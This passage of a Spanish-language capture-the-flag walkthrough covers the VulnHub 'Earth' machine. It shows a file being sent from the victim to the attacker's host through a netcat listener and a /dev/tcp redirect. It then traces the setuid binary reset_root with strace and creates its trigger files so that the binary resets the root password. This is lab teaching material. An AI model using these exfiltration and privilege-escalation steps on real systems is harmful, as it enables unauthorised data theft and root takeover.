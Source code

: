 ![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/24.png){: .align-center}

Al intentar hacer un `cat` al archivo este será ilegible

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/25.png){: .align-center}

Por esto será necesario mandar el archivo al equipo atacante para poder revisarlo.

Primero se pondrá un puerto en escucha esperando por la información del archivo y que lo guardará en el equipo:
```bash
nc -nlvp 9002 > reset_root
```

Luego mandar el archivo:
```bash
cat /usr/bin/reset_root > /dev/tcp/192.168.122.13/9002
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/26.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/27.png){: .align-center}

Se recibirá correctamente y el `nc` se cerrará

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/28.png){: .align-center}

Dar permisos de ejecución al archivo `reset_root`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/29.png){: .align-center}

Asegurar que se tiene instalado `strace`, si no instalarlo
```bash
sudo apt install –y strace
```

Comprobar el contenido del archivo `reset_root`
```bash
strace -f ./reset_root
```

Entre todo el contenido mostrará unas líneas que comprueban si existen unos archivos, de existir entonces el script cambia la contraseña del usuario root.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/30.png){: .align-center}

Crear los archivos en el equipo víctima
```bash
touch /dev/shm/kHgTFI5G /dev/shm/Zw7bV9U5 /tmp/kcM0Wewe
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/earth/31.png){: .align-center}

Ejecutar de nuevo el archivo `reset_root`
```bash
/usr/bin/reset_root
```
